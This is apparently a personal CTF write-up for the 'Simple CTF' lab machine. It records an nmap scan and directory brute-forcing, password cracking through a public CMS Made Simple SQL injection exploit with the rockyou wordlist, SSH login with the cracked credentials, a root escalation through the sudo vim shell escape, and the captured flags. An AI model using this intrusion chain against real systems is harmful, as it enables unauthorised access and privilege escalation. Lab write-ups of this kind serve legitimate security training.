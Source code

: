 2025-06-19 16:43

Status:

Tags: #CTF 

# Simple CTF

# Recon 
1. Nmap scan 
	- ``nmap 10.10.40.158 -sVC -Pn``
- output 
```bash
21/tcp open ftp vsftpd 3.0.3
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 
```
2. directory brute using gobuster
- `` gobuster dir -u  http://10.10.40.158/  -w /usr/share/wordlists/dirb/common.txt``
- out put gives 
	- ``/simple ``
3. Web enumeration
	- we will find out CMS Made simple version 2.2.8
4. CVE (make simple )
- search for  simple version 2.2.8 in search exploit 
	-  `` searchsploit "made simple"``
```bash
CMS Made Simple < 2.2.10 - SQL Injection      | php/webapps/46635.py 
```
- so I have used script for python3 saved as 446636.py by chatgpt 
- creaking the password using python 
```bash
python 46636.py -u http://10.10.40.158/simple -c -w /usr/share/wordlists/rockyou.txt.gz\n 
```
- output cracked password : secret and username : mitch   
5. Shell acess
- login ssh 
	- ``ssh mitch@10.10.40.158 -p 2222 ``
6. flag 1
```bash
pwd
/home/mitch
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up! 
```
7. privileged SUID
```bash
sudo -l 
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim 
```
8. Privilege Escalation - vim/ gtfobins
```bash
sudo vim -c ':!/bin/sh' 
```
9. Final flag 
```bash
cd /
# cd root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it! 
```





### References
